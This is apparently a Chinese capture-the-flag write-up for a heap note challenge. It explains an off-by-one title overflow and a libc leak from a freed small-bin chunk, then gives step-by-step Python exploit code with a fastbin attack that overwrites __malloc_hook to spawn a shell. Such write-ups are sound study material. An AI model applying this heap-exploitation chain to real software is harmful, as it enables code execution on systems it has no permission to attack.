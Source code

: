 ## Preface
比赛的时候没做，现在稍微看了下，还是挺简单的 orz

## checksec

```Assembly
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

### struct

```C
struct title_list
{
    int isused;         // +0x00
    int size;           // +0x04
    char title[0x10];   // +0x08
    (char*) content;          // +0x18
};// 0x20
```

## Vuln

1. @read_buf读取title存在越界<br>
```C
for ( i = 0; i <= (signed int)a2; ++i )
 {
   if ( read(0, &buf, 1uLL) < 0 )
     exit(1);
   (a1 + i) = buf;
   if ( (char*)(i + a1) == '\n' )
   {
     (char*)(i + a1) = 0;
     return (unsigned int)i;
   }
 }
```

2. read 存在地址泄露

```Assembly
mov     eax, [rbp+$tmp_size]
movsxd  rdx, eax ; nbytes
mov     rax, [rbp+buf]
mov     rsi, rax ; buf
mov     edi, 0 ; fd
call    _read
```

## leak

```Python
for i in range(4):
    add_note(0xf8, chr(0x48+i)*0x9+'\n', chr(0x61+i)*0xf0)
```

```Assembly
000000F800000001 4848484848484848  ........HHHHHHHH
0000000000000048 00000000011E3010  H........0......
000000F800000001 4949494949494949  ........IIIIIIII
0000000000000049 00000000011E3110  I........1......
000000F800000001 4A4A4A4A4A4A4A4A  ........JJJJJJJJ
000000000000004A 00000000011E3210  J........2......
000000F800000001 4B4B4B4B4B4B4B4B  ........KKKKKKKK
000000000000004B 00000000011E3310  K........3......
```
接下来释放两个堆<br>
```Python
delete_note(2)
delete_note(3)
```
因为之前申请了small bin缘故，这里会再堆上存main arena 附件的地址<br>
```Assembly
011E3200  0000000000000000 0000000000000101  ................
011E3210  00007FCB1057FB78 00007FCB1057FB78  x.W.....x.W.....
```
接下来再申请堆，同时控制content为8字节<br>
```Python
add_note(0xf8, 'x'*0x10+chr(0x11), 'l'*0x08)
```
观察堆<br>
```Assembly
011E3200  0000000000000000 0000000000000101  ................
011E3210  6C6C6C6C6C6C6C6C 00007FCB1057FB78  llllllllx.W.....
```

接下来show一下就能读到地址了，然后算出libc地址<br>
```Python
show_note(2)
io.recvuntil("note content: ")
io.recv(0x7)
libc_base_addr = u64(io.recv(8)) - smlbin_area_off
```

## exp
我采用fastbin attack
```Python
payload = 'f'*0x40
payload += p64(0) + p64(0x91)
add_note(0x60, 'x'*0x10+chr(0x60), payload)  # 4
add_note(0x60, '5'*0x9+'\n', 'e'*0x10)  # 5
add_note(0x60, '5'*0x9+'\n', 'e'*0x10)  # 6
add_note(0x60, '7'*0x9+'\n', 'e'*0x10)  # 7
add_note(0x60, '8'*0x9+'\n', 'e'*0x10)  # 8
delete_note(6)
delete_note(5)
```
这里利用了@read_buf 1字节溢出<br>
0x011E3410处即为note4<br>
但是由于 'x'*0x10+chr(0x60) 填充，其结构体中buf低字节被修改为0x60。<br>
```Assembly
011E3400  0000000000000000 0000000000000071  ........q.......
011E3410  6666666666666666 6666666666666666  ffffffffffffffff    <--- content4本应该指向
011E3420  6666666666666666 6666666666666666  ffffffffffffffff
011E3430  6666666666666666 6666666666666666  ffffffffffffffff
011E3440  6666666666666666 6666666666666666  ffffffffffffffff
011E3450  0000000000000000 0000000000000091  ................
011E3460  0000000000000000 0000000000000000  ................    <---  现在content4指向
011E3470  0000000000000000 0000000000000071  ........q.......
011E3480  00000000011E34E0 6565656565656565  .4......eeeeeeee    <---  content5
011E3490  0000000000000000 0000000000000000  ................
```
这里的主要目的是为了方便覆盖content5的存放fasbtin的指针
```
011E3480  00000000011E34E0
```
从而触发fastbin attack<br>


```Python
delete_note(4)
payload = 'a'*0x10
payload += p64(0) + p64(0x71)
payload += p64(libc_base_addr+malloc_hook_off-0x03-0x20)
add_note(0x80, 'o'*0x9+'\n', payload)
```
覆盖的值(libc_base_addr+malloc_hook_off-0x03-0x20)指向一个伪块<br>
伪堆块主要利用shift malloc_hook上面的字节构造<br>

```Assembly
00007FCB1057FAED  CB1057E260000000 000000000000007F  ...`.W..........
00007FCB1057FAFD  CB10241270000000 CB10240E5000007F  ...p.$.....P.$..
00007FCB1057FB0D  000000000000007F 0000000000000000  ................

libc_2.23.so:00007FCB1057FB10 __malloc_hook db    0
```
填充__malloc_hook 为 exec binsh 地址即可

```Python
payload = chr(0)*3
payload += p64(0)*2
payload += p64(libc_base_addr+execv_binsh_off)
add_note(0x60, '8'*0x9+'\n', payload)
add_note(0x60, '8'*0x9+'\n', payload)
mmenu(1)
io.recvuntil("Please input the note size: ")
io.sendline(str(0x60))
io.interactive()
```

